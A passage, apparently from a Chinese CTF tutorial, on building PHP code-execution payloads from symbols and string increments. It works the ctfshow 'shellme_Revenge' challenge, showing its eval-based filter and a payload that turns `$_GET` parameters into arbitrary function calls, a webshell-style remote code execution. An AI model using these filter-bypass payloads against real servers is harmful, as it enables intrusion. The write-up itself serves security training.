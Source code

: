 ```php
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

### 例题

#### 递增构造

##### shellme_Revenge[ctfshow吃瓜杯]

只有一个phpinfo，可以看到hint

```php
hint=?looklook
```

输入`?hint=1`的带源码

```php
<?php
error_reporting(0);
if ($_GET['looklook']){
    highlight_file(__FILE__);
}else{
    setcookie("hint", "?looklook", time()+3600);
}
if (isset($_POST['ctf_show'])) {
    $ctfshow = $_POST['ctf_show'];
    if (is_string($ctfshow) || strlen($ctfshow) <= 107) {
        if (!preg_match("/[!@#%^&*:'\"|`a-zA-BD-Z~\\\\]|[4-9]/",$ctfshow)){
            eval($ctfshow);
        }else{
            echo("fucccc hacker!!");
        }
    }
} else {

    phpinfo();
}
?>
```

直接利用递增构造出rce

```php
<?php
$_=C;
$_++; //D
$C=++$_; //E
$_++; //F
$C_=++$_; //G
$_=(C/C.C){0}; //N
$_++; //O
$_++; //P
$_++; //Q
$_++; //R
$_++; //S
$_=_.$C_.$C.++$_; //_GET
($$_{1})($$_{2}); //($_GET{1})($_GET{2})
```
